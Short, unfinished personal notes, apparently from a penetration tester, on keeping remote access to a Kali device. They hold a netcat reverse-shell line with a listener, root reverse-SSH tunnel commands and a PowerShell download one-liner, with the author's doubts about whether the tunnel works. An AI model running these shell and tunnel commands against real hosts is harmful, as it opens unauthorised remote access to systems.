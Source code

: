 
##Netcat sucks but would work...

/bin/sh | nc TARGET IP 80 #This is the IP of the Kali device
nc -lvp 80 # Run this listener on Kali

##SSH is better.

Autossh - https://linux.die.net/man/1/autossh
Reverse SSH Tunneling Tutorial - https://www.howtoforge.com/reverse-ssh-tunneling 
SSH Keys instead of passwords - https://www.digitalocean.com/community/tutorials/how-to-configure-ssh-key-based-authentication-on-a-linux-server 

## SSH With Port Forward using certificate based authentication - woot.

#this needs work, I need to think on the logic.
ssh -i "bsides-keypair.pem" root@hostname -R 22:172.16.0.1:22 -v

Attacker > SSH To Control Server - Port 22
Kali > SSH To Control Server - Accepts connections on 22

SSH Control Server forwards requests port 8000 to Kali device.
- How does it know the device for transport?? Experiment.
-- -R 8000:localhost:8000 I think will do it.

Testing required.

Powershell script to automagically download
(New-Object System.Net.WebClient).DownloadFile('https://curl.haxx.se/windows/dl-7.66.0/curl-7.66.0-win32-mingw.zip', '.\curl-7.66.0-win32-mingw.zip') 

